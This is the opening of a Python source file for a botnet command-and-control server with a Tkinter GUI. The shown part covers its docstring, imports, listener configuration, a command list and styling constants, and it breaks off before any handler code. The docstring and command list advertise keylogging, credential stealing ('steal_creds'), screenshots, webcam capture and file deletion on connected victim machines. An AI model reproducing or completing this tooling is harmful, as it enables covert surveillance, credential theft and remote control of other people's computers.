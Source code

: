 """
Botnet Server
=================
This file implements a graphical botnet command & control server using Python and Tkinter.
It allows you to connect to multiple bots (clients), send them commands (upload, download, screenshot, webcam, etc.), and receive their responses/files.

Key Features:
- GUI built with Tkinter for easy management.
- Handles multiple bots with threading.
- File transfers, shell commands, credential stealing, screenshots, webcam snaps.
"""

import socket
import os
from datetime import datetime
import struct
import threading
import tkinter as tk
from tkinter import filedialog, ttk, messagebox

# Configuration constants
SERVER_IP = "0.0.0.0"        # Listen on all interfaces
SERVER_PORT = 8091           # Port for incoming bots
CHUNK_SIZE = 2048            # Data chunk size for file transfers
EOF_MARKER = "<end_of_file>" # End-of-file marker for file transfer
BASE_DIR = os.path.dirname(os.path.abspath(__file__)) # Directory for file operations

# List of supported commands
COMMANDS = [
    "upload", "download", "get_keylog", "screenshot",
    "webcam_snap", "steal_creds", "delete", "exit"
]

# GUI styling
DARK_BG = "#222b3a"
SIDEBAR_BG = "#1b2230"
MAIN_BG = "#262d3b"
ACCENT = "#3e92cc"
TEXT_COLOR = "#f5f6fa"
BTN_BG = "#42506a"
BTN_ACTIVE_BG = "#3e92cc"
FONT = ("Segoe UI", 11)
FONT_BOLD = ("Segoe UI", 11, "bold")
LOG_BG = "#222b3a"
LOG_FG = "#f5f6fa"
ENTRY_BG = "#31384a"
ENTRY_FG = "#f5f6fa"
